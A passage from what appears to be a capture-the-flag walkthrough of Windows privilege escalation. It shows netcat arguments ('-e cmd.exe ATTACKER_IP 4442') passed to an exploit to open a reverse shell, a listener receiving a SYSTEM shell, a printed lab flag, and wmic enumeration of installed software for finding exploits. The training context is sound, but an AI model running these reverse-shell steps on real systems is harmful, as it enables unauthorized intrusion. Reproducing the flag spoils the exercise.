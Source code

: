 ```
- The ```-p``` parameter specifies the executable to be run by the exploit, which is nc64.exe in this case. 
- The ```-a``` parameter is used to pass arguments to the executable. 
- Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be ```-e cmd.exe ATTACKER_IP 4442```.

If all was correctly set up, you should expect a shell with SYSTEM privileges:

KaliLinux
```
user@attackerpc$ nc -lvp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
nt authority\system
```

Using any of the three methods discussed in this task, gain access to the Administrator's desktop and collect the flag. Don't forget to input the flag at the end of this task.

1. Get the flag on the Administrator's desktop.(1:00)

Answer :THM{SEFLAGPRIVILEGE}

![img](/assets/img/wpe26.png)





---

Task 7 - Abusing vulnerable software
---


### Unpatched Software
---

Software installed on the target system can present various privilege escalation opportunities. As with drivers, organisations and users may not update them as often as they update the operating system. You can use the wmic tool to list software installed on the target system and its versions. The command below will dump information it can gather on installed software (it might take around a minute to finish):
```
wmic product get name,version,vendor

```
Remember that the ```wmic product``` command may not return all installed programs. Depending on how some of the programs were installed, they might not get listed here. It is always worth checking desktop shortcuts, available services or generally any trace that indicates the existence of additional software that might be vulnerable.

Once we have gathered product version information, we can always search for existing exploits on the installed software online on sites like [exploit-db](https://www.exploit-db.com/), [packet storm](https://packetstormsecurity.com/) or plain old [Google](https://www.google.com/), amongst many others.

Using wmic and Google, can you find a known vulnerability on any installed product?


```